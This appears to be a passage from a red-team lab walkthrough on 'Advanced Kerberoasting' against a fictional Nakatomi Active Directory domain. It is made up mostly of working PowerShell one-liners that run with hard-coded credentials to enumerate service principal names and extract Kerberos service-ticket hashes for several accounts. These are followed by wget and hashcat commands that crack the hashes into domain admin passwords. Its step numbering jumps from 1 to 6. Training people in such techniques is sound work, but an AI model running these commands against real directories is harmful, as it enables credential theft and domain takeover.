 # Advanced Kerberoasting

## Roast like a Ghost



1. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.

```
$name=lex.walsh
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

```
$name=al.powell
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

```
$name=nia.daugherty
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

***ITERATE THIS STEP FOR EACH USER FROM THE PREVIOUS STEP***
6. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`mssqlsvc/it-sql.it-nakatomi##.local`", "`al.powell`"). Copy the SPN hashes to crack offline.

> Note there are two locations in this commmand that you have to replace the ## with the enclave number.

```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("mssqlsvc/it-sql.it-nakatomi##.local", "al.powell");'));
```
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("HOST/it-shrpt.it-nakatomi##.local", "lexi.walsh");'));
```
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("LDAP1/it-dc2.it-nakatomi##.local", "nia.daugherty");'));
```

7. Collect the hashes into a text file (`kerb.hash`) on your kali operater box. 

8. Get the provided word list (`rawk_you.txt`) from the file server, and run John/Hashcat with it.
   ```sh
   wget http://172.16.2.2:8080/rush_hour/rawk_you.txt \
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin. You should have: `al.powell lexi.walsh nia.daugherty`.

